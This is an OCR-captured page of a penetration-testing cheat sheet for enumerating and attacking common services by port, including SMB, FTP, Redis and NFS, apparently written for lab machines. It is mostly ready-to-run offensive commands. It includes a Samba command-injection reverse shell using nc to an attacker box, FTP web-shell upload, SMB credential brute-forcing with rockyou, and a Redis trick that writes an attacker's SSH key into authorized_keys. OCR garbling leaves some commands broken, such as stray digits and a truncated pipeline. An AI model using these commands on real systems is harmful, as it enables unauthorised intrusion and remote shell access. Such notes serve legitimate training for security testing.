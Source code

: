 # Enumeration


## Port Scanning :



```bash
nmap -sC -sV -o nmap 1 -A -T5 10.10.10.x

# Host Discovery
nmap -sn 10.10.1.1-254 -vv -oA hosts
netdiscover -r 10.10.10.0/24

# DNS server discovery
nmap -p 53 10.10.10.1-254 -vv -oA dcs

# NSE Scripts Scan
* nmap -sV --script=vulscan/vulscan.nse

# Port specific NSE script list :
ls /usr/share/nmap/scripts/ssh*
ls /usr/share/nmap/scripts/smb*

# Scanning all 65535 ports :

masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.x -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | 
nmap -Pn -sV -sC -p$ports 10.10.10.x

# Running specific NSE scripts :
nmap -Pn -sC -sV --script=vuln*.nse -p$ports 10.10.10.x -T5 -A
```
sC - default scripts, sV - scan for versions, oA- output all formats. 

Optional - sT (performs full scan instead of syn-scan to prevent getting flagged by firewalls)
From Apache Version to finding Ubuntu version -> ubuntu httpd versions

## FTP : (Port 21)

anonymous login check
- ftp <ip address>
- username : anonymous
- pwd : anonymous
- file upload -> put shell.php


## SSH : (Port 22)



id_rsa.pub : Public key that can be used in authorized_keys for login

id_rsa : Private key that is used for login. Might ask for password. can be cracked with
ssh2john and john

- id_rsa
- ssh -i id_rsa user@10.10.10.x
- For passwordless login, add id_rsa.pub to target's authorized_keys
- ssh2john

# DNS Zone transfer check : (Port 53)


- If port 53 is open
- Add host to /etc/hosts
- dig axfr smasher.htb @10.10.10.135
- [https://ghostphisher.github.io/smasher2](https://ghostphisher.github.io/smasher2)
- Add the extracted domain to /etc/hosts and dig again


# RPC Bind (111)

 ```bash
rpcclient --user="" --command=enumprivs 1 -N 10.10.10.10
rpcinfo –p 10.10.10.10
rpcbind -p 10.10.10.10
```

# RPC (135)

```bash
rpcdump.py 10.11.1.121 -p 135
rpcdump.py 10.11.1.121 -p 135 | grep ncacn_2 np // get pipe names
rpcmap.py ncacn_ip_tcp:10.11.1.121[135]
```

# SMB (139 & 445)

[https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

```bash
nmap --script smb-protocols 10.10.10.10
smbclient -L //10.10.10.10
smbclient -L //10.10.10.10 -N // No password (SMB Null session)
smbclient --no-pass -L 10.10.10.10
smbclient //10.10.10.10/share_name
smbmap -H 10.10.10.10
smbmap -H 10.10.10.10 -u '' -p ''
smbmap -H 10.10.10.10 -s share_name
crackmapexec smb 10.10.10.10 -u '' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name
enum4linux -a 10.10.10.10
rpcclient -U "" 10.10.10.10
      * enumdomusers
      * enumdomgroups
      * queryuser [rid]
      * getdompwinfo
      * getusrdompwinfo [rid]
ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v
mount -t cifs "//10.1.1.1/share/" /mnt/wins
mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0

# SMB Shell to Reverse Shell :

 smbclient -U "username%password" //192.168.0.116/sharename
 smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash"

```

# SMB Exploits :

 Samba "username map script" Command Execution - CVE-2007-2447
 
- Version 3.0.20 through 3.0.25rc3
- Samba-usermap-exploit.py -
[https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)

- Eternal Blue - CVE-2017-0144
- SMB v1 in Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7
- SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and
- Windows 10 Gold, 1511, and 1607; and Windows Server 2016
[https://github.com/adithyan-ak/MS17-010-Manual-Exploit](https://github.com/adithyan-ak/MS17-010-Manual-Exploit)
- SambaCry - CVE-2017-7494
  4.5.9 version and before
[https://github.com/opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)


SNMP (161)

```bash

  snmpwalk -c 1 public -v1 10.0.0.0
  snmpcheck -t 192.168.1.X -c public
  onesixtyone -c names -i hosts
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
  snmpenum -t 192.168.1.X
```

# IRC (194,6667,6660-7000)

- nmap -sV --script irc-botnet-channels,irc-info,irc-unrealircd-backdoor -p 194,6660-7000
  irked.htb
- [https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) (exploit code)

# NFS (2049)


- showmount -e 10.1.1.27
- mkdir /mnt/nfs
- mount -t nfs 192.168.2.4:/nfspath-shown /mnt/nfs
- Permission Denied ? [https://blog.christophetd.fr/write-up-vulnix](https://blog.christophetd.fr/write-up-vulnix/)



# MYSQL (3306)

nmap -sV -Pn -vv 10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dumphashes,
mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysqlvariables,
mysql-vuln-cve2012-2122


# Redis (6379)

In the output of config get * you could find the home of the redis user (usually /var/lib/redis
or /home/redis/.ssh), and knowing this you know where you can write the
authenticated_users file to access via ssh with the user redis. If you know the home of other
valid user where you have writable permissions you can also abuse it:

1. Generate a ssh public-private key pair on your pc: ssh-keygen -t rsa
2. Write the public key to a file :
(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
3. Import the file into redis : cat foo.txt | redis-cli -h 10.10.10.10 -x set crackit
4. Save the public key to the authorized_keys file on redis server:


```bash
root@Urahara:~# redis-1 cli -h 10.85.0.52
10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

# Port Knocking :

```bash
# TCP
knock -v 192.168.0.116 4 27391 159

# UDP
knock -v 192.168.0.116 4 27391 159 -u

# TCP & UDP
8 knock -v 192.168.1.111 159:udp 27391:tcp 4:udp
```
















